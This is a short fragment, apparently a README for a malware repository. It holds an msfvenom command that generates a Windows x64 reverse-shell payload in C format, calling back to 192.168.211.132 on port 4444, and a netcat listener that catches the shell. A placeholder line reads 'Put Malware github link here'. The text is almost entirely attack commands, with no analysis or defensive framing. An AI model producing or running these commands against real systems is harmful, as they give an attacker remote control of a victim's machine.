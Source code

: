 msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.211.132 LPORT=4444 -f c 

Put Malware github link here - 

nc -lvp 4444
